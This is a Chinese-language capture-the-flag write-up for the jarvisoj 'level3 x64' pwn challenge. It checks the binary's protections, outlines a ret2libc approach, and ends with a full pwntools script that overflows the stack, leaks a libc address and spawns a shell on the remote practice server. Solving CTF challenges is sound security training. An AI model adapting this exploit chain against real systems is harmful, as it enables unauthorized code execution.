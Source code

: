 ```yaml
---
author: 
  name: Zephyr
title: jarvisoj level3 x64
date: 2022-3-28 10:25:20
permalink: /pages/2e1547494524d19e
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# jarvisoj level3 x64

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/jarvisoj_level3_x64/level3_x64'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  return write(1, "Hello, World!\n", 0xEuLL);
}
```

vulnerable_function函数及函数表如下

![jarvisoj_level3_x64_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/jarvisoj_level3_x64_1.png)

## 思路分析

1. 目前信息：
   - vulnerable_function函数可溢出
   - 无system、/bin/sh与后门函数
   - No canary found
   - NX enabled
   - No PIE
2. 思路：
   - 典型的64位ret2libc解法

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/jarvisoj_level3_x64/level3_x64'
io = remote('node4.buuoj.cn', 29803)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 136
libc_start_main_got = elf.got['__libc_start_main']
write_plt = elf.plt['write']
vulnerable_function = elf.symbols['vulnerable_function']
pop_rdi_ret = 0x4006b3
pop_rsi_r15_ret = 0x4006b1
ret=0x400499
payload = flat(['a'*padding, pop_rdi_ret, 1, pop_rsi_r15_ret,libc_start_main_got, 0xdeadbeef, write_plt,vulnerable_function])
io.sendafter('Input:\n', payload)
leak_libc_start_main = u64(io.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))
success("leak_libc_start_main:"+hex(leak_libc_start_main))
libc = LibcSearcher('__libc_start_main', leak_libc_start_main)
libc_base = leak_libc_start_main-libc.dump('__libc_start_main')
system = libc_base+libc.dump('system')
bin_sh = libc_base+libc.dump('str_bin_sh')
payload = flat(['a'*padding, pop_rdi_ret, bin_sh, system])
io.send(payload)
io.interactive()
```